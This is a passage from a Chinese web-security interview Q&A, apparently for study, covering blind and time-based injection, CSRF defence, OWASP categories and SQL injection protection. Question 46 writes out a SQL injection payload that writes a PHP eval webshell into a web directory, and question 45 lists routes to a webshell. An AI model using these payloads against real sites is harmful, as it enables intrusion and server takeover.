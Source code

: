   
 **44、盲注和延时注入的共同点？**

  * 

    
    
     都是一个字符一个字符的判断

  
 **45、如何拿一个网站的webshell？**

  *   * 

    
    
     上传，后台编辑模板，sql注入写文件，命令执行，代码执行，一些已经爆出的cms漏洞，比如dedecms后台可以直接建立脚本文件，wordpress上传插件包含脚本文件zip压缩包等

  
 **46、sql注入写文件都有哪些函数？**

  *   *   * 

    
    
     select '一句话' into outfile '路径'select '一句话' into dumpfile '路径'select '<?php eval($_POST[1]) ?>' into dumpfile  'd:\wwwroot\baidu.com\nvhack.php';

  
 **47、如何防止CSRF?**

  *   *   * 

    
    
     1,验证referer2，验证token详细：http://cnodejs.org/topic/5533dd6e9138f09b629674fd

  
 **48、owasp 漏洞都有哪些？**

  *   *   *   *   *   *   *   *   *   * 

    
    
     1、SQL注入防护方法：2、失效的身份认证和会话管理3、跨站脚本攻击XSS4、直接引用不安全的对象5、安全配置错误6、敏感信息泄露7、缺少功能级的访问控制8、跨站请求伪造CSRF9、使用含有已知漏洞的组件10、未验证的重定向和转发

  
 **49、SQL注入防护方法？**

  *   *   *   *   * 

    
    
     1、使用安全的API2、对输入的特殊字符进行Escape转义处理3、使用白名单来规范化输入验证方法4、对客户端输入进行控制，不允许输入SQL注入相关的特殊字符5、服务器端在提交数据库进行SQL查询之前，对特殊字符进行过滤、转义、替换、删除。

  
 **50、代码执行，文件读取，命令执行的函数都有哪些？**

  *   *   *   *   *   *   * 

    
    
     1）代码执行：eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function2）文件读取：file_get_contents(),highlight_file(),fopen(),readfile(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等3)命令执行：system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()

  
 **51、img标签除了onerror属性外，还有其他获取管理员路径的办法吗？**
